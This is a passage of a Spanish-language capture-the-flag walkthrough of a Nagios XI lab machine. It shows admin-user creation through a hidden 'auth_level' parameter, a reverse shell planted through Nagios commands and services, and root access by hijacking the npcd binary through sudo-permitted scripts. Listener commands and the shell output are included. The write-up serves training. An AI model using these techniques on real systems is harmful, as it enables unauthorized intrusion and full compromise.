

Como se ve, pide parametros con valores para crearlo, pero a esto se debe agregar un parametro oculto que es "auth_level" con el valor de admin, para que este tenga permisos de administrador.

Como se ve, efectivamente crea un usuario, ahora con dichas credenciales se intenta realizar el inicio de sesion.



POR FIN!!!
Si se pudo obtener acceso con el usuario creado, ademas se puede ver una opcion de admin que suena tentadora.
### Entablando conexión inicial con el servidor
Ahora, buscando en internet como abusar de Nagios con permisos de administrador, encontre dos formas:
1. Creando un nuevo servicio con un comando a ejecutar (aca seria la reverse shell)
2. Subir una imagen pero con una php shell por detras y ejecutarla
Guiandome por la primera opción, existe una opción para crear comandos, en esta se crea una reverse shell y ya.



Ahora como se hace para ejecutar el comando creado, existe otra opcion de servicios, en esa se crea un servicio nuevo, seleccionando el comando que creamos.



De esa forma aparecera la opcion de correr el comando, antes de correrlo se debe crear un escucha en nuestra bash y asi entablar la conexion con la reverse shell.
~~~bash
sudo nc -nlvp 4433                     
[sudo] password for kali: 
listening on [any] 4433 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.248] 48308
id
uid=1001(nagios) gid=1001(nagios) groups=1001(nagios),1002(nagcmd)
~~~
POR FIN. Ahora somos el usuario nagios.

---
## User Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

### User Flag
Con acceso al servidor, ahora se puede buscar la user flag.
~~~bash
nagios@monitored:~$ ls
cookie.txt  user.txt
nagios@monitored:~$ cat user.txt
<Encuentre su propia user flag>
~~~

---

## Escalada de Privilegios
La escalada de privilegios se realizo mediante la enumeración manual de privilegios, primero se vieron los permisos "sudo -l"
~~~bash
nagios@monitored:/tmp$ sudo -l
Matching Defaults entries for nagios on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User nagios may run the following commands on localhost:
    (root) NOPASSWD: /etc/init.d/nagios start
    (root) NOPASSWD: /etc/init.d/nagios stop
    (root) NOPASSWD: /etc/init.d/nagios restart
    (root) NOPASSWD: /etc/init.d/nagios reload
    (root) NOPASSWD: /etc/init.d/nagios status
    (root) NOPASSWD: /etc/init.d/nagios checkconfig
    (root) NOPASSWD: /etc/init.d/npcd start
    (root) NOPASSWD: /etc/init.d/npcd stop
    (root) NOPASSWD: /etc/init.d/npcd restart
    (root) NOPASSWD: /etc/init.d/npcd reload
    (root) NOPASSWD: /etc/init.d/npcd status
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/components/autodiscover_new.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/send_to_nls.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/migrate/migrate.php *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/components/getprofile.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/upgrade_to_latest.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/change_timezone.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_services.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/reset_config_perms.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_ssl_config.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/backup_xi.sh *
~~~
Para esto simplemente busque en internet alguno de estos archivos para ver si existe forma de abusar de ellos, encontrando esto https://gist.github.com/sec-fortress/6d128a5e290e873be4c2ca27b6579eca
Este exploit solamente indica que al ejecutar el script "manage_services" junto a algun comando como "start, stop, restart, etc" y el servico que se quiera ejecutar, hace un file hijacking colocando un archivo malicioso (reverse shell) en el lugar donde busca ejecutarlo que es "/usr/local/nagios/bin/npcd" en el que tenemos permisos de escritura.
No es muy dificil de intuirlo, igualmente se puede leer el script para entenderlo mejor, pero es lo mismo.
Asi que copiando el script y modificandolo para enviar la revese shell a mi maquina atacante se obtiene una shell como root.
~~~bash
nagios@monitored:/tmp$ chmod +x priv.sh 
nagios@monitored:/tmp$ ./priv.sh 
[+] Start Up your listener
[+] nc -lvnp 8090
[+] Expect your shellzz xD
[+] done
~~~
En mi maquina se programo un escucha y obtuve la shell.
~~~bash
sudo nc -nlvp 8090                     
[sudo] password for kali: 
listening on [any] 8090 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.248] 53406
id
uid=0(root) gid=0(root) groups=0(root)
~~~

---
## Root Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

Con acceso como root a la maquina, ya se puede leer la root flag sin problema.
~~~
cd /root
ls
root.txt
cat root.txt
<Encuentre su propia root flag>
~~~
🎉 Sistema completamente comprometido - Root obtenido

